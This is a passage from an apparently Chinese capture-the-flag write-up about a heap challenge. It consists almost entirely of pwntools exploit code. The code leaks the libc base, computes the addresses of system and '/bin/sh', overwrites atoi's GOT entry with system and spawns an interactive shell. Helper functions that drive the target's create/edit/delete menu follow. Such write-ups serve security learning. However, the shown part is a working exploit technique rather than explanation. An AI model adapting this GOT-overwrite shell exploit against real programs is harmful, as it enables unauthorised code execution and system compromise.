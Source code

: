 ```python
log.success("atoi offset: 0x%x" % puts_offset)
time.sleep(1)
log.info("Calculating libc address...")
time.sleep(1)
libc_addr = puts_addr - puts_offset
log.success("Libc address: 0x%x" % libc_addr)
log.info("Calculating system & /bin/sh address...")
system_addr = libc_addr + libc.symbols["system"]
binsh = libc_addr + libc.search("/bin/sh").next()
log.success("system address: 0x%x" % system_addr)
log.success("/bin/sh address: 0x%x" % binsh)
time.sleep(1)
log.info("Changing atoi@got --> system@got...")
payload3 = p64(system_addr)
edit(2, len(payload3) + 1, payload3)
time.sleep(1)
p.recvuntil("OK")

log.info("Now atoi@got is system@got, so just pass the string '/bin/sh' to atoi")
log.info("Actually we called system('/bin/sh') !")
time.sleep(1)
p.send(p64(binsh))
log.info("Ready in 5 seconds...")
time.sleep(5)
log.success("PWN!!")
p.interactive()
```

## 1、模仿程序流程写出payload
```python
def create(size):
    p.sendline("1")
    time.sleep(1)
    p.sendline(str(size))

def edit(index, length, content):
    p.sendline("2")
    time.sleep(1)
    p.sendline(str(index))
    time.sleep(1)
    p.sendline(str(length))
    time.sleep(1)
    p.sendline(content)

def delete(index):
    p.sendline("3")
    time.sleep(1)
    p.sendline(str(index))
```

这个很简单，就不再多说了。
